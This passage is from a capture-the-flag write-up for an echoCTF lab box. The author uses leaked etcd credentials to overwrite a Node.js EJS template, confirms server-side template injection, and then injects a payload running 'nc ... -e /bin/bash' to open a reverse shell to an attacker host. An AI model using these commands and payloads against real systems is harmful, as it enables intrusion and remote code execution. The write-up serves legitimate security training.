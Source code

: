 Viewing the value stored in the `/nodejs/index` key.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 get --prefix "/nodejs/index"

/nodejs/index
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <title><% if (typeof title == "undefined") { %>
      EtceteraD
      <% } else { %>
      <%= title %>
      <% }%></title>
      ...
      </body>
</html>
```

From the content of the `/nodejs/index` key we observe and find out that it is the source code for the web site we saw earlier running on port `1337`. Furthermore, we can also see that the source code does some server side rendering and hence may be vulnerable to SSTI. From our initial Nmap scan, nmap reported that the service running on port `1337` was powered by Node.js (Express middleware). This can guide us to know the kind of code to execute inorder to obtain RCE.

### Testing our theory.
Since we have write access to `/nodejs/index` key we will write our own content to verify if we can obtain code exeuction. Payload: `Bingo: <%= 7*7 %>`
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 put "/nodejs/index" "Bingo: <%= 7*7 %>" 
OK
```
We reload the web app on port `1337` and bingo!!! <br>
![SSTI PoC](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/ssti_1337_poc.png)

After a number of google searches we find a payload that can help us execute code on the target. We can leverage this to spawn a reverse shell on the target. <br>
Payload:`<%= process.mainModule.require('child_process').execSync('nc 10.10.1.126 8989 -e /bin/bash') %>`

We will further leverage this to obtain a revervseshell using the payload above.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 put "/nodejs/index" "<%= process.mainModule.require('child_process').execSync('nc 10.10.1.126 8989 -e /bin/bash') %>"
OK
```
